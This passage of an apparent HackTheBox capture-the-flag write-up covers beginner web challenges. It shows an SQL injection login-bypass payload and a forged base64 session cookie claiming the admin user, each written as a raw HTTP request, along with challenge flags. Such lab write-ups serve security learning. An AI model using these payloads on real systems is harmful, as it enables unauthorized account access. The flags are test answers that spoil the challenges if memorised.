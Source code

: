 ```
Priority: u=0, i

username=admin'+or+1=1--'&password=a
```

![image](https://hackmd.io/_uploads/r1lThPGupC.png)

flag: `HTB{SQL_1nj3ct1ng_my_w4y_0utta_h3r3}`



## baby auth

![image](https://hackmd.io/_uploads/By6BFfdpC.png)


```
GET / HTTP/1.1
Host: 94.237.49.212:35182
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.49.212:35182/login
Connection: close
Cookie: PHPSESSID=eyJ1c2VybmFtZSI6ImFkbWluIn0%3d
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

flag: `HTB{s3ss10n_1nt3grity_1s_0v3r4tt3d_4nyw4ys}`


## baby nginxatsu

![image](https://hackmd.io/_uploads/BJRI0fYa0.png)

![image](https://hackmd.io/_uploads/r1dP0GY60.png)

```
POST /auth/login HTTP/1.1
Host: 94.237.59.63:36223
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 106
Origin: http://94.237.59.63:36223
Connection: close
Referer: http://94.237.59.63:36223/auth/login
Cookie: XSRF-TOKEN=eyJpdiI6IkxjSzVBUXBQRXJXRHZNaWNCRUJRdkE9PSIsInZhbHVlIjoiSUFCT1kreVZTcXV1RXJ1ZlJvQzJUUzBmSjJLVVd4Y25QZUlqUDJnaVc1eUJjb3ZNZFNoLzBzY1ovVjlZekNFWFF3cG1RRHRtSG5RNlo5MG05UkxIU2ROUVJsaWRyZ1Nla2dIeGJodnlNNUZQMk1iclZJbEMrMmpRVm5xb091U0IiLCJtYWMiOiJkZGJkODFmMjhmNzI4NzZlZjJjNmYyMjJkNTQwOWQ0ZmRkOWNmNDFhNzNiNmJlZGFiZjViYTc0NzIxMjFhMTc0In0%3D; laravel_session=eyJpdiI6IlFTZGF0eWdRS0E3MzVvSjdqeUkrbGc9PSIsInZhbHVlIjoiZHcvcDVZUm5NVS9ScDVmL3ZyVUowVlVmTzhNQ0lBekcwTGM4QUNYQzQ1dTVmUHZMT0VoVXFhZTdlc0xTdjZIUWlWUThyYmhlOUJ5NEtMV3h3WE1VZFlvb1hLeHFVRlZIVjE1eGFxSkhCc1RvdUZMQ2dkUGN4MERNanNVMVQ0NDYiLCJtYWMiOiJhZjRmNDE0ZTUzOWFjMjA2ODRmNThjNjJlZmZkYzBiMTkwYTk5MTM5ZDMzMTk4MDIxNGJmMjFjOGNkZmRmZTk3In0%3D
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```